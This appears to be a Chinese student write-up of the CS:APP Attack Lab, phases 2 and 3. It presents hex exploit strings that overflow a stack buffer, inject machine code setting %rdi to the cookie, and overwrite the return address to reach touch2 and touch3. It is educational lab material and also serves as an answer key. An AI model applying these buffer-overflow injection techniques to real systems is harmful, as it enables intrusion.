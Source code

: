 通过对CSAPP的学习，我们可以知道当寄存器数量足够时，函数的参数是在寄存器中传递的，且第一个被使用的寄存器即为 `%rdi` 。因此，在本部分中，我们需要在缓冲区中插入汇编代码，使得cookie的数值表示被传入`%rdi`寄存器。

在这里我们可以直接编写汇编代码`ctarget2-help.s`，在编译后通过`objdump -d ctarget2-help.o > ctarget2-help.d`得到汇编代码相应的机器代码。

为了执行我们插入缓冲区的汇编代码，覆盖后的返回地址应当为缓冲区汇编代码的起始地址，并且在完成寄存器的赋值操作后，我们需要以某种方式使得控制流从缓冲区转移至`touch2`。在这里，我们可以通过`push <addr>`的方式在栈帧中压入`touch2`的入口地址，使得`%rsp`寄存器指向该地址，再调用`ret`返回至`touch2`。可以构造如下的hex文件`ctarget2.txt`：

```
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa,%rdi */
68 ec 17 40 00       /* push $0x4017ec (the address of touch2 is pointed by %rsp) */
c3                   /* ret */
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00
78 dc 61 55          /* address of movq */
```

### phase3

在本部分中，我们需要以字符串的形式cookie作为参数执行`touch3`：

```
1 /* Compare string to hex represention of unsigned value */ 
2 int hexmatch(unsigned val, char *sval)
3 { 
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */ 6 char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 } 
10
11 void touch3(char *sval)
12 {
13 	vlevel = 3; /* Part of validation protocol */
14 	if (hexmatch(cookie, sval)) {
15 		printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 		validate(3);
17 	} else {
18 		printf("Misfire: You called touch3(\"%s\")\n", sval);
19 		fail(3);
20 	}
21 	exit(0);
22 }
```

在这里我们需要在栈帧中存入cookie字符串，并给`%rdi`寄存器赋以栈帧中字符串的起始地址。值得注意的是，在`hexmatch`函数中分配了很大的缓冲区，因此我们保存cookie字符串的位置应当在栈帧的高地址处，以避免被该缓冲区覆盖。可以构造如下的hex文件`ctarget3`：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 c7 c7 b0 dc 61 55    /* movq $0x5561dcb0,%rdi (address of the cookie's string) */
68 fa 18 40 00          /* push $0x4018fa (the address of touch3 be pointed by %rsp) */
c3                      /* ret */
00 00 00
90 dc 61 55 00 00 00 00 /* the address of movq */
00 00 00 00 00 00 00 00
35 39 62 39 39 37 66 61 /* the cookie's string */
```
